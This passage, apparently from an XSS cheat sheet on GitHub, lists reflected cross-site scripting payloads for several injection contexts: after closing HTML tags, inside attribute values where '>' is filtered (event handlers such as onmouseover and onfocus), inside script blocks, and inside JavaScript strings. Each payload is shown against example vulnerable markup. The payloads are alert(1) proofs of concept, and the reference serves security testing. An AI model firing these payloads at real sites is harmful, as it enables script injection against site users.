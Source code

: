 4. Add </tag> when the input inside or between opening/closing tags, tag can be ```<a>,<title>,<script>``` and any other HTML tags
    
```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* Example source code
```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* After input the payload
```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered
```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. Use </script> when input inside ```<script>``` tags
```html
</script><script>alert(1)</script>
```

* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* After input the payload
```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

## **XSS Cheat Sheet (Advanced)**
7. Use when input lands in a script block, inside a string delimited value.
```html
'-alert(1)-'
'/alert(1)//
```
